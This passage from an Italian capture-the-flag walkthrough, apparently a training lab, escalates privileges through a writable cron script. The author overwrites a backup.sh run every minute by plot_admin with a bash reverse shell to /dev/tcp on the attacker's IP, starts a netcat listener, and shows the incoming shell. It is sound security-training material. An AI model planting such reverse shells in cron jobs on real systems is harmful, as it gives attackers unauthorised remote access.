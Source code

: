 stabilizziamo la shell
```
perl -e 'exec "/bin/bash";'
```
non è possibile fare altro , dobbiamo scalare i privilegi

vediamo se ci sono cronjob in esecuzione
```
cat /etc/crontab
```

```
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *  root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *  plot_admin /var/www/scripts/backup.sh

```

troviamo interessante plot_admin /var/www/scripts/backup.sh
vediamo che permessi abbiamo
```
ls -al /var/www/scripts/
```
possiamo scrivere nella cartella

creiamo un file di ==reverse shell== bash direttamente nel terminale vittima

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.14.99.134/5555 0>&1' > backup.sh
```
diamo i permessi di esecuzione
```
chmod +x backup.sh
```

ci mettiamo in ascolto sulla nostra macchina attaccante in attesa che si esegua il cronjob
```
nc -lvnp 5555
```
otteniamo la revshell
```
└─# nc -lvnp 5555             
listening on [any] 5555 ...
connect to [10.14.99.134] from (UNKNOWN) [10.10.163.22] 35952
bash: cannot set terminal process group (45320): Inappropriate ioctl for device
bash: no job control in this shell
plot_admin@plotted:~$ 

```
